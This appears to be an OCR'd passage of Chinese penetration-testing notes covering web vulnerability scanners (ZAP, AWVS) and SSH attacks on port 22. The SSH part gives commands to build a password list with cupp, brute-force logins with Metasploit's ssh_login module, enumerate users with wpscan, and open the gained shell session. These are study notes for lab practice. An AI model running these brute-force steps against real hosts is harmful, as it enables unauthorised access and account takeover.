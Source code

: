     * 软件位置：application --> Web Application Analysis --> owasp-zap（kali2020 上名字是 ZAP）

    ```shell
    在 quick start 开始之后，检查完在 下方选项卡 【Alerts】查看漏洞
    ```

3. web 漏洞扫描器：AVWS

    ```SHELL
    # 1. 打开软件后，添加需要扫描的 IP 地址
    # 2. 点击 scan，Report 选择 developer，然后开始。
    ```

## 三、分析信息和信息利用

### 3.1 ssh服务的 22 端口

* 首先考虑如下：
    1. 暴力破解
    2. 私钥泄露（私钥有没有对应的密码，是否可以找到私钥的用户名）

    如果在某个端口下发现有 `.ssh`，可以尝试以下

    ```shell
    # ***************暴力破解******************
    # 利用破解工具，hydra, medusa, metasploit
    # 1. 创建字典(cupp)
    git clone https://github.com/jeanphorn/common-password.git
    chmod +x cupp.py
    ./cupp.py -i # 以交互的方式创建字典
    # 2. 使用 metasploit 破解 ssh
    msfconsole
    use auxiliary/scanner/ssh/ssh_login # 使用这个模块
    show options # 查看可以设置的参数
    # 一般有如下：
    set rhosts 192.168.1.1 # 设置目标主机的地址
    set username admin # 设置用户名
    # 在实际中，怎么知道用户名是啥呢？可以用 wpscan 枚举用户名
    # 直接输入 wpscan 回车会提示用法。wpscan --url www.hhh.com --enumerate u # www.hhh.com 应该是根据实际中点进去登录的上一级页面的地址
    set pass_file password.txt # 设置密码的路径
    set password 123456 # 添加此密码到爆破队列中
    set threads 5 # 设置线程
    set verbose true # 设置每条登录信息都可以查看
    run # 开始爆破
    sessions -i 1 # 如果成功破解到相应的密码，会返回一个shell，此时需要优化会话。
    # 最后 show options 查看一下设置好没有。如果需要重新设置参数，退出重新设置。
    back # 返回
    exit # 退出
